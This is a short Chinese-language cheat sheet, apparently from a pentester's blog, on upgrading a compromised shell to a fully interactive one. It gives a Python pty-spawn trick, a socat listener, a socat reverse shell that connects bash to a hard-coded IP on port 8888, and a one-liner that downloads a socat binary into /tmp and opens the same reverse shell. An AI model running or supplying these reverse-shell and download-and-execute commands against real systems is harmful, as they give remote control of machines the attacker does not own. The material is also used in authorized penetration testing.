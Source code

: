 ```yaml
---
title: 提升为完全交互式的shell
date: 2024-01-12 18:54:15
tags:
---
```

## 有python

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color
```

## 无python(Socat)

Socat交互式：

监听
```
socat file:tty,raw,echo=0 tcp-listen:8888
nc -lvvp 8888也可以，但是只能半交互式
```

反弹
```
socat TCP:139.159.221.73:8888 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

一键反弹（远程下载socat,要求能访问github,或者自行python开启http）
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:139.159.221.73:8888
```

